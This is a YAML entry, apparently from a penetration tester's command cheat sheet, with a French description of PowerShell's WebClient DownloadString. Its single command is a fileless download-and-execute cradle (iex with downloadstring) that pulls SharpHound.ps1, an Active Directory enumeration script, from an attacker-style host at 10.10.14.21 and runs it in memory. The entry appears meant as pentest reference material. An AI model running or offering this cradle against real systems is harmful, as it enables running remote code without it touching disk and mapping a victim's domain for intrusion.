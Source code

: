 ```yaml
---
description: |
  (New-Object Net.WebClient).DownloadString est une commande PowerShell qui utilise la classe .NET WebClient pour télécharger et EXÉCUTER un fichier à partir du serveur sans l'enregistrer.

  Command Reference:

  	Location of file: http://10.10.14.21:8999/SharpHound.ps1

command: |
  iex(new-object net.webclient).downloadstring("http://10.10.14.21:8999/SharpHound.ps1")
items:
  - Shell
OS:
  - Windows
  - Approved-tool
attack_types:
  - General
references:
  - https://learn.microsoft.com/de-de/dotnet/api/system.net.webclient.downloadstring?view=net-5.0
  - https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters
---
```

